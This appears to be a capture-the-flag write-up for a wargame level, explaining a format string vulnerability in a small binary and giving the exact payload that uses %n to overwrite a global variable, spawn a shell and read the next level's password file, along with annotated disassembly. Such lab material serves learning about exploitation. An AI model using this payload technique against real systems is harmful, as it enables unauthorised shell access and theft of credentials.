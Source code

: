 - attack: format string exploitation (address leaks)
- binary behavior: fgets argument and send it to printf, if global argument = 64 run the shell
- targeted functions: v and main
- vulnerability in v: printf() without argument (Bugs section in printf man)
- defense: fget

Method:
- do stack leakage
- find in leakage the position of the buffer (find repetition and compare with hex ASCII table)
- find the global variable (password)
- overwrite buffer with address of global variable 
- and pass 64 as its value
 
Info:
- positon of buffer in stack - 4

- 0x804988c - address global variable
- 8c980408 - same in little-endian
- same in hex - \x8c\x98\x04\x08
- the password - 0x40 or 64

- offset code structure: 64 = 4 (global variable address) + 60 (shell code)


Code:
objdump -d ./level3
 ./level3
%p %p %p %p %p
(python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"';cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; echo "cd ..; cat level4/.pass") | ./level3

cd ..; cat level4/.pass


Functions

0804851a <main>:
 804851a:       55                      push   %ebp
 804851b:       89 e5                   mov    %esp,%ebp
 804851d:       83 e4 f0                and    $0xfffffff0,%esp
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret



080484a4 <v>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       81 ec 18 02 00 00       sub    $0x218,%esp
 80484ad:       a1 60 98 04 08          mov    0x8049860,%eax
 80484b2:       89 44 24 08             mov    %eax,0x8(%esp)
 80484b6:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp)
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484c4:       89 04 24                mov    %eax,(%esp)
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt> #defence
 80484cc:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484d2:       89 04 24                mov    %eax,(%esp)
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt> #exploit for attack
 80484da:       a1 8c 98 04 08          mov    0x804988c,%eax 
 80484df:       83 f8 40                cmp    $0x40,%eax # compaison of eax with 64
 80484e2:       75 34                   jne    8048518 <v+0x74> # if equal to 0 
 80484e4:       a1 80 98 04 08          mov    0x8049880,%eax
 80484e9:       89 c2                   mov    %eax,%edx
 80484eb:       b8 00 86 04 08          mov    $0x8048600,%eax
 80484f0:       89 54 24 0c             mov    %edx,0xc(%esp)
 80484f4:       c7 44 24 08 0c 00 00    movl   $0xc,0x8(%esp)
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048503:       00
 8048504:       89 04 24                mov    %eax,(%esp)
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    movl   $0x804860d,(%esp)
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt> #exploit for shell
 8048518:       c9                      leave # jump here if 0
 8048519:       c3                      ret

             